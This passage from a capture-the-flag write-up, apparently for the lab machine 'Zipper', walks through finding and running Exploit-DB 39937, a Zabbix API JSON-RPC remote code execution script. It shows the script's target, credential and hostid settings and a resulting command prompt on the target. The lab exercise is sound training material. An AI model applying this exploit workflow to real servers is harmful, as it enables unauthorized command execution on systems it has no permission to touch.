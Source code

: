 ```
Zabbix Server - Multiple Vulnerabilities                                                                              | exploits/multiple/webapps/10432.txt
---------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Hmmn, `39937` looks interesting 
```
kali :: ~/CTFs/zipper # searchsploit -m 39937                                                                                                              2 ↵
  Exploit: Zabbix 2.2 < 3.0.3 - API JSON-RPC Remote Code Execution
      URL: https://www.exploit-db.com/exploits/39937/
     Path: /usr/share/exploitdb/exploits/php/webapps/39937.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/CTFs/zipper/39937.py
```

(Remember, `-m` mirrors, or copies, the chosen exploit script or info file locally, not all exploitdb references have scripts, some are just writeups.)

Modify the script to include our details, we find the HostID back in Zabbix, at Reports>Zapper's Backup Script>Detail Screen>Click on "Zabbix" (next to Host), and in the popup choose "Host Inventory". The hostid will be in the URL of the page that opens.
```
ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit

login = 'zapper'                ### Zabbix login
password = 'zapper'     ### Zabbix password
hostid = '10105'        ### Zabbix hostid

...
```

Running the script, and listing the contents of the directory we land in just shows us that we default to "/".
```
kali :: ~/CTFs/zipper # python 39937.py                                                                                                                       
[zabbix_cmd]>>:  ls
backups
bin
boot
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
